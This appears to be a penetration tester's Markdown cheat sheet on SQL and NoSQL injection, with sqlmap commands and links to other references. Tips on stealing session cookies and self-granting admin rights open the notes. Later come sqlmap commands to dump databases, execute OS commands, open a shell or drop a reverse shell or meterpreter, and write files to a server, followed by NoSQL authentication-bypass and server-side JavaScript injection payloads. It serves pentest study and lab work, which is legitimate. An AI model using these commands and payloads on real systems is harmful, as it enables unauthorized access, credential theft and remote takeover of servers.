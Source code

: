 # Basic Reconnaissance
## Tips
- If a database has a table of session one can try to steal cookies or other credentials from the table to authenticate as another user.     
- If one is in a database with write access and there are roles assigned to users, give the current user admin rights.

## SQL Injection Cheat Sheets
- [https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
- [https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html](https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html)
- [https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/)
- [https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)


## Universal Structures
```
information_schema              Metadata and all the databases and tables
information_schema.schemata     Databases
information_schema.tables       Tables
information_schema.columns      Columns
```

# sqlmap
## GET
Discover vulnerabilities in databases as well as dump info
```sh
sqlmap -u <URL> --batch
```

## POST
```sh
# With request file
# Add request into a log file (either from Burp or Chrome)
sqlmap -r <request_file> --batch

sqlmap -u <URL> --data "username=*&password=*"
```

## Web sockets
```sh
sqlmap -u ws://<ip><port> --data <data>
```

## Commands
**To get data from any query use the `--dump` option**
```sh
# Get all databases
sqlmap -u <URL> --dbs

# Set DBMS
sqlmap -u <URL> --dbms="dbms"

# Database
sqlmap -u <URL> -D <database>

# Tables
sqlmap -u <URL> --tables -D <database>

## Specify table
sqlmap -u <URL> -D <database> -T <table>

# Columns
sqlmap -u <URL> --columns -D <database> -T <table>
```

## Shell
To get upload web interface look for `file stager` otherwise look for `backdoor` in the output.
```sh
# Exec command
sqlmap -u <URL>  --os-cmd <command>

# Simple Shell
sqlmap -u <URL> --os-shell

# Dropping a reverse-shell / meterpreter
sqlmap -u <URL> --os-pwn
```

## File Upload
```sh
sqlmap -u <url> --data <data> --file-write <local_file> --file-dest <destination>
```

## References
- [https://0xdf.gitlab.io/2018/06/23/htb-falafel.html](https://0xdf.gitlab.io/2018/06/23/htb-falafel.html)
- [https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap#shell](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap#shell)
- [https://www.binarytides.com/sqlmap-hacking-tutorial/](https://www.binarytides.com/sqlmap-hacking-tutorial/)
- [https://www.hackingarticles.in/shell-uploading-in-web-server-using-sqlmap/](https://www.hackingarticles.in/shell-uploading-in-web-server-using-sqlmap/)



# NoSQL
[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)

## Authentication Bypass
```
DATA
username[$ne]=toto&password[$ne]=toto
login[$regex]=a.*&pass[$ne]=lol
login[$gt]=admin&login[$lt]=test&pass[$ne]=1
login[$nin][]=admin&login[$nin][]=test&pass[$ne]=toto

JSON
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}
```

## SSJI
```
';return 'a'=='a' && ''=='
";return 'a'=='a' && ''=='
0;return true
```

## NoSQLMap
Since the tool is using a menu based system, I'll just link the GitHub.     
[Documentation and Release](https://github.com/codingo/NoSQLMap)
​​